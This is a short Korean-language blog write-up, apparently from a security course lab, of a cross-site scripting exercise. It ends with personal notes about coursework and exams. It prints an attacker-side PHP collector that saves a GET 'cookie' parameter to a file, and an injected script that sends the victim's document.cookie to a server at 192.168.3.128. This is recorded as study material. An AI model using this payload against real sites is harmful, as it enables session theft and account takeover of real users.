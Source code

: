 
1.공격 준비
```php
<?php
	$cookie = $_GET['cookie'];
	$fp = fopen("./save.txt","w");
	fwrite($fp,$cookie);
	fclose($fp);
?>
```

<br>

2.준비한 XSS 삽입

```php
<script>
	document.location="http://192.168.3.128/attack.php?cookie=" + document.cookie;
</script>
```

![image-20220522135909900](../img/image-20220522135909900.png)

<br>

3.확인

![image-20220522140012556](../img/image-20220522140012556.png)

공격자 서버에 GET 방식으로 인자를 전달 받는 php를 생성하고 XSS에서 document.cookie를 해당 페이지의 인자로 전달했다. 이후 공격자의 서버에 파일을 저장함으로써 피해자의 컴퓨터를 보고 있지 않아도 쿠키 값을 볼 수 있겠다.

<br><br>

이렇게 마지막 low 레벨까지 라업을 쓰는 도중에 6주차 과제도 올라왔다. 이번 주 토요일 sqld 자격증 시험과 다음 bob 지원 마감이기에 시간 관리를 잘해야겠다. 

